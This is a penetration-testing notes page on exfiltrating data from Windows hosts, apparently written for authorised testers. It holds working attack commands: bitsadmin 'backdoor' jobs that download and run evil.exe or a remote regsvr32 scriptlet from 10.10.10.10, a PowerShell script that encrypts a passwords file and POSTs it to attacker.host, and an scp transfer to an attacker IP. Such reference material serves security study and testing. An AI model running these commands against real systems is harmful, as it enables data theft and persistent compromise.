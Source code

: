# Data Exfiltration

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.‌
{% endhint %}

{% hint style="danger" %}
Not much here yet...please feel free to contribute at [my GitHub page](https://github.com/zweilosec/Infosec-Notes).
{% endhint %}

## Exfiltrate Data Using BITS Jobs

{% tabs %}
{% tab title="PowerShell" %}
First, you must import the BitsTransfer PowerShell Module with `Import-Module BitsTransfer`.  After you import the BitsTransfer module, the following cmdlets are available:

* **`Add-BitsFile`** Adds files to a BITS transfer
* **`Complete-BitsTransfer`** Completes a BITS transfer
* **`Get-BitsTransfer`** Gets a BITS transfer
* **`Remove-BitsTransfer`** Stops a BITS transfer
* **`Resume-BitsTransfer`** Resumes a suspended BITS transfer
* **`Set-BitsTransfer`** Configures a BITS transfer job
* **`Start-BitsTransfer`** Creates and starts a BITS transfer job
* **`Suspend-BitsTransfer`** Pauses a BITS transfer job

For example, the following Windows PowerShell command begins a BITS transfer from the local computer to a computer named CLIENT:

```powershell
Start-BitsTransfer -Source file.txt -Destination \\client\share -Priority normal
```

When running Windows PowerShell interactively, the PowerShell window displays the progress of the transfer. The following command uses an abbreviated notation to download a file from a Web site to the local computer:

```powershell
Start-BitsTransfer https://server/dir/myfile.txt C:\docs\myfile.txt
```

Manage BITS with PowerShell - Microsoft:

* [https://learn.microsoft.com/en-us/previous-versions/technet-magazine/ff382721(v=msdn.10)](https://learn.microsoft.com/en-us/previous-versions/technet-magazine/ff382721\(v=msdn.10\))
{% endtab %}

{% tab title="cmd.exe" %}
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://10.10.10.10/evil.exe"  "C:\tmp\evil.exe"

# v1
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\evil.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor

# v2 - exploit/multi/script/web_delivery
bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/s /n /u /i:http://10.10.10.10:8080/FHXSd9.sct scrobj.dll"
bitsadmin /resume backdoor
```
{% endtab %}
{% endtabs %}

## Exfiltrate Data Using FTP

See [this section](privilege-escalation.md#using-ftp) under Privilege Escalation

## Exfiltrate Data Using SMB

{% tabs %}
{% tab title="PowerShell" %}
#### Create an SMB share <a href="#example-1-create-an-smb-share" id="example-1-create-an-smb-share"></a>

```powershell
New-SmbShare -Name "Exfil" -Path "C:\temp" -FullAccess "$Domain\Administrator"
```

This command creates an SMB share named "Exfil" and grants Full Access permissions to "$Domain\\$UserName".

For more about the New-SmbShare PowerShell cmdlet:

* [https://learn.microsoft.com/en-us/powershell/module/smbshare/new-smbshare?view=windowsserver2022-ps](https://learn.microsoft.com/en-us/powershell/module/smbshare/new-smbshare?view=windowsserver2022-ps)
{% endtab %}

{% tab title="cmd.exe" %}

{% endtab %}
{% endtabs %}

See [this section](privilege-escalation.md#smb) under Privilege Escalation for more

## AES Encrypt and HTTP POST with PowerShell

If you set up a web server to accept post requests, you can either AES encrypt or base64 encode your target data and simply send an HTTP request to the server with the data.&#x20;

Example with AES encrypted payload:

```powershell
$file = Get-Content C:\Users\Target\Desktop\passwords.txt
#key must be 128 bits (16 chars), 192 bits (24 chars), or 256 bits (32 chars) 
$key = (New-Object System.Text.ASCIIEncoding).GetBytes("usemetodecryptit") 
$securestring = New-Object System.Security.SecureString

foreach ($char in $file.toCharArray()) {$secureString.AppendChar($char)}

$encryptedData = ConvertFrom-SecureString -SecureString $secureString -Key $key

Invoke-WebRequest -Uri http://www.attacker.host/exfil -Method POST -Body $encryptedData
```

You can also skip the last command to send the web request, and simply print the encoded data to the screen and copy to your other terminal (may create a very long wall of text if the file is large!).&#x20;

To decode the data on the other side simply reverse the process:

```powershell
$key = (New-Object System.Text.ASCIIEncoding).GetBytes("54b8617eca0e54c7d3c8e6732c6b687a")
$encrypted = "$encrypted_payload"
echo $encrypted | ConvertTo-SecureString -key $key | ForEach-Object {[Runtime.InteropServices.Marshal]::PtrToStringBSTR([Runtime.InteropServices.Marshal]::SecureStringToBSTR($_))}
```

Simply substitute the `$encrypted_payload` variable with the actual content that was sent in the body of the HTTP request, and you will have your exfiltrated file!

This works in either Windows Powershell, or `pwsh` on Unix systems as well. &#x20;

One potential limitation I have noted is that it seems to strip out newline characters in text files. &#x20;

### Covert to and from Base64 with PowerShell

You can always convert your data or files to be exfiltrated to Base64 text and simply copy and paste this in your terminal (or use bash/PowerShell magic to convert your target data back).  See [this section](privilege-escalation.md#covert-to-and-from-base64-with-powershell) under Privilege Escalation for more information on this technique.

## Send an email with PowerShell

### PowerShell `Send-MailMessage` cmdlet

```powershell
Send-MailMessage -From 'User01 <user01@fabrikam.com>' -To 'User02 <user02@fabrikam.com>', 'User03 <user03@fabrikam.com>' -Subject 'Sending the Attachment' -Body "Forgot to send the attachment. Sending now." -Attachments .\data.csv -Priority High -DeliveryNotificationOption OnSuccess, OnFailure -SmtpServer 'smtp.fabrikam.com'
```

* The **`From`** parameter to specify the message's sender.&#x20;
* The **`To`** parameter specifies the message's recipients.&#x20;
* The **Subject** parameter describes the content of the message.&#x20;
* The **Body** parameter is the content of the message.
* The **`Attachments`** parameter specifies the file in the current directory that is attached to the email message.&#x20;
* The **`Priority`** parameter sets the message to **High** priority.&#x20;
* The **`-DeliveryNotificationOption`** parameter specifies two values, **`OnSuccess`** and **`OnFailure`**. The sender will receive email notifications to confirm the success or failure of the message delivery.&#x20;
* The **`SmtpServer`** parameter sets the SMTP server to **smtp.fabrikam.com**.

According to Microsoft this cmdlet has been deprecated with no replacement.  However, if it is present on the machine it should still work!

* [https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/send-mailmessage?view=powershell-7.2](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/send-mailmessage?view=powershell-7.2)

## Misc

### Web services

* Anon paste sites like Pastebin offer an easy exfiltration channel.&#x20;
* GitHub and other code versioning sites are often permitted in many technical organizations.
* Many common file-storage sites like OneDrive, Dropbox, Google Drive, and Box are often permitted, especially if an organization outsources to shared cloud services.

### File-transfer Programs

In addition to the methods listed above, the following programs can be used to transfer files, provided you have copied the program to the victim machine, and it is not blocked:

* netcat
* socat
* tftp

### SCP

The attacker has to have SSHd running.

```bash
scp <username>@<Attacker_IP>:<directory>/<filename> 
```

### Airgap Exfiltration

* [https://thesecmaster.com/14-popular-air-gapped-data-exfiltration-techniques-used-to-steal-the-data/](https://thesecmaster.com/14-popular-air-gapped-data-exfiltration-techniques-used-to-steal-the-data/)

## References

* [https://azeria-labs.com/data-exfiltration/](https://azeria-labs.com/data-exfiltration/)
* [https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/)

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!
